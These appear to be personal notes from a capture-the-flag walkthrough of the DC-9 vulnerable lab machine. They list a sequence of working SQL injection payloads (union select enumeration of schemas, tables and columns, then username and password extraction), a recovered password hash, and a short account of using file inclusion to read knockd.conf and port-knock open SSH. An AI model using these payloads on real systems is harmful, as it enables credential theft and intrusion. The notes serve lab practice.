

# DC-9
10 May 2022
09:21 PM

mary' order by 1 -- -

mary' union all select 1,2,3,4,5,6 -- -
mary' union all select 1,2,3,4,@@version,6 -- -

mary' union all select 1,2,3,4,schema\_name,6 from information\_schema.schemata -- -

mary' union select all 1,2,3,4,table\_name,6 from information\_schema.tables -- -

mary' union all select 1,2,3,4,column\_name,6 FROM information\_schema.columns where table\_name='UserDetails' -- -

mary' union all select 1,2,3,concat(username),concat(password),6 FROM users.UserDetails -- -

mary' union all select 1,2,3,concat(username),concat(password),6 FROM Users -- -

pass --&gt;&gt; 856f5de590ef37314e7c3bdf6f8a66dc

Basically all the users that I saw earlier have access to the machine and the passwords we got might allow me to get into the machine, but from the nmap report we know that the SSH port is being filtered, this could mean that is either being restricted by IP maybe or we are dealing with “port knocking”. Taking advantage of the LFI I attempted to read a knockd.conf file if available and was able to successfully get information from such a file.

Great, now all we have to do is to knock the sequence of ports displayed from the file using nmap. Port knocking with nmap using those port numbers can be accomplished with the following command:

port knocking
<https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html>

 
